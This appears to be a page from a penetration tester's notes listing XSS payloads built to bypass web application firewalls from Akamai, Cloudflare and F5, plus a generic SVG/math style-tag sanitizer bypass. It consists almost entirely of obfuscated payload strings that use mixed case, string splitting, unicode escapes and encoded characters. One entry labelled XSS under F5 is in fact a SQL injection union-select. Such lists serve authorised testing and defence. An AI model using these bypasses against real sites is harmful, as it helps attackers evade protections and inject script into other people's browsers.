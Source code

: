# General

Hide [[content/Web/Payloads/XSS|XSS]] payload in style tag of an SVG or math element for WAF or sanitizer bypass:

```
<svg><style> <script>alert(1)</script> </style></svg> <math><style> <img src onerror=alert(2)> </style></math>
```
# Akamai

[[content/Web/Payloads/XSS|XSS]] bypass 1:

```
1'"><A HRef=\" AutoFocus OnFocus=top/**/?.['ale'%2B'rt'](1)>
```
# Cloudflare

[[XSS]] bypass 1:

```
"><body/onload="{x:onerror=alert};x
```

[[XSS]] bypass 2:

```
<inpuT autofocus oNFocus="setTimeout(function() { /*\`*/top['al'+'\u0065'+'rt']([!+[]+!+[]]+[![]+[]][+[]])/*\`*/ }, 5000);"></inpuT%3E&lT;/stYle&lT;/titLe&lT;/teXtarEa&lT;/scRipt&gT;
```

# F5

[[XSS]] bypass 1:

```
+{`nothing`/*str*/(')}div%0B1+'
+{`nothing`/*str*/(')}div%0B0+'
```

[[XSS]] bypass 2:

```
{`noth`/*ing*/821}+union+%23%0a+distinctrow%0b/**/select+1,2,3--{`nothing`/**/TRUE}
```
